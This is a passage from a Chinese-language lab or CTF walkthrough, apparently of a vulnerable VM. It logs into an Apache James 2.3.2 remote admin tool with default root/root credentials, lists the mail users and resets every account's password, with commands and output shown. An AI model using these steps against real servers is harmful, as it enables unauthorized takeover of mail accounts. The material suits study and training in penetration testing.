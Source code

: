 ```bash
# showalias [username]                    shows a user's current email alias
# unsetalias [user]                       unsets an alias for 'user'
# setforwarding [username] [emailaddress] forwards a user's email to another email address
# showforwarding [username]               shows a user's current email forwarding
# unsetforwarding [username]              removes a forward
# user [repositoryname]                   change to another user repository
# shutdown                                kills the current JVM (convenient when James is run as a daemon)
# quit                                    close connection
listusers
# Existing accounts 5
# user: james
# user: thomas
# user: john
# user: mindy
# user: mailadmin
countusers
# Existing accounts 5
```

发现了若干用户！！！

再试试其他的：

```bash
telnet 192.168.37.131 110
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403171944564.png" alt="image-20240317184726502" style="zoom: 50%;" />

忘了要密码了，使用上面那个程序看看能不能修改密码，不行就查漏洞了：

```bash
┌──(kali㉿kali)-[~]
└─$ nc 192.168.37.131 4555
# JAMES Remote Administration Tool 2.3.2
# Please enter your login and password
# Login id:
root
# Password:
root
# Welcome root. HELP for a list of commands
listusers
# Existing accounts 5
# user: james
# user: thomas
# user: john
# user: mindy
# user: mailadmin
setpassword james password
# Password for james reset
setpassword thomas password   
# Password for thomas reset
setpassword john password 
# Password for john reset
setpassword mindy password
# Password for mindy reset
setpassword mailadmin password
# Password for mailadmin reset
```
